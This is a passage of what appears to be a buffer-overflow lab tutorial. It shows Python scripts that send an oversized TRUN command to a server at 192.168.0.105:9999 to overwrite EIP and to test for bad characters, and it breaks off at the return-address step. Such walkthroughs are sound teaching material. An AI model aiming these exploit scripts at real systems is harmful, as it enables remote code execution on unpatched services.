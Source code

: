 ## Step 4: Overwriting EIP

### EIP Overwrite Verification
```python
#!/usr/bin/python
import sys, socket

shellcode = "A" * 2003 + "B" * 4

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.0.105',9999))
    s.send(('TRUN /.:/' + shellcode))
    s.close()
except:
    print("Error connecting to server")
    sys.exit()
```

## Step 5: Finding Bad Characters

### Bad Character Script
```python
#!/usr/bin/python
import sys, socket

badchars = (
"\x01\x02\x03\x04\x05...\xff"
)

shellcode = "A" * 2003 + "B" * 4 + badchars

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.0.105',9999))
    s.send(('TRUN /.:/' + shellcode))
    s.close()
except:
    print("Error connecting to server")
    sys.exit()
```

**Process:**
1. Remove \x00 by default
2. Send all characters
3. Follow ESP in dump
4. Note disrupted sequences

## Step 6: Finding Return Address
